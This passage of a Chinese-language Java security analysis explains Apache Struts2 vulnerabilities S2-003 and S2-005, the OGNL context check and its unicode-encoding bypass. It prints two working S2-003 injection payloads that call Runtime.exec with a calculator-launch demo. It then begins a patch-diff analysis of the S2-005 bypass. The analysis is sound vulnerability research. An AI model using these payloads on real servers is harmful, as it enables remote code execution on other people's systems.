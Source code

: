 在解析完表达式执行方法的时候，会调用 `MethodAccessor#callMethod/callStaticMethod` 方法，在调用之前会在 context 中取 `xwork.MethodAccessor.denyMethodExecution` 的值转为布尔型进行判断，如果是 true 则不会调用方法，只有为 false 才会进行调用。

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296384.png)

因此，这个漏洞的触发流程就明确了，攻击者在参数名处传入恶意表达式：
- 使用 unicode 编码特殊字符绕过对关键字符黑名单的判断；
- 将 context 中的 `xwork.MethodAccessor.denyMethodExecution` 值修改为 false，这样在后面才可以调用方法；
- 执行恶意的表达式。

因此 S2-003 的漏洞利用 payload 为：

```
(su18)(('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003d\u0023su19')(\u0023su19\u003dnew\u0020java.lang.Boolean(false)))&(su20)(('\u0023su21.exec(\'open -a Calculator.app\')')(\u0023su21\u003d@java.lang.Runtime@getRuntime()))
```
或者
```
(%27\u0023context[\%27xwork.MethodAccessor.denyMethodExecution\%27]\u003dfalse%27)(su18)(su19)&(%27\u0023su20\u003d@java.lang.Runtime@getRuntime().exec(\%27open%20-a%20Calculator.app\%27)%27)(su21)(su22)
```

当然也可以根据上面的分析随意改成自己喜欢的样子。这里有一点要注意的是，可以看到第二个 payload 没有直接使用 @ 调用静态方法的方式，而是使用了 `#su=` 进行了赋值，这是因为在 OGNL 对参数解析时，静态方法的解析会排在其他方式的前面，这就导致了还没修改 context 里的值，导致无法执行，所以先进行了赋值。主要的原因是 `TreeMap` 的默认排序是按照 key 的字典顺序排序即升序。

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296387.png)


## S2-005

官方在 struts2-core 2.0.12 对 S2-003 进行了修复，实际上是 xwork 2.0.6 版本修复。S2-005 是对 S2-003 修复的绕过。

> 影响版本：Struts 2.0.0 - Struts 2.1.8.1
> 参考链接：https://cwiki.apache.org/confluence/display/WW/S2-005
> 描述：为了修复 S2-003，官方添加了 SecurityMemberAccess ，但是没有从根本上进行修复漏洞。

先来 diff 一下更新，在 `ParametersInterceptor#setParameters` 方法，使用了 ValueStackFactory 为当前值栈重新初始化 ValueStack，不再使用原有的 ValueStack，并为其设置了相关属性，包括新增的 `acceptParams` 和 `excludeParams` 是接收访问的参数名白名单和黑名单。

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296389.png)

新增了 MemberAccessValueStack 和 ClearableValueStack 接口，由 OgnlValueStack 实现，用来配置额外的属性和清除 context 中的内容，并为 OgnlValueStack 添加了新的 allowStaticMethodAccess 和 securityMemberAccess 属性，用来限制静态方法的调用。

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296393.png)

在为 ValueStack 设置 root 时，会创建 `SecurityMemberAccess` 对象，并调用 `Ognl.createDefaultContext()` 方法将其放在 Context 里，key 为 `OgnlContext.MEMBER_ACCESS_CONTEXT_KEY`，也就是 `_memberAccess`。

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296395.png)

在 OGNL 解析完表达式，试图调用方法时，会调用 MemberAccess 的 `isAccessible()` 方法来判断是否允许调用，xwork 创建了 `SecurityMemberAccess` 对象继承自 DefaultMemberAccess 并重写了这个方法，因此，我们需要让这个方法返回 true，才能执行最终的方法。
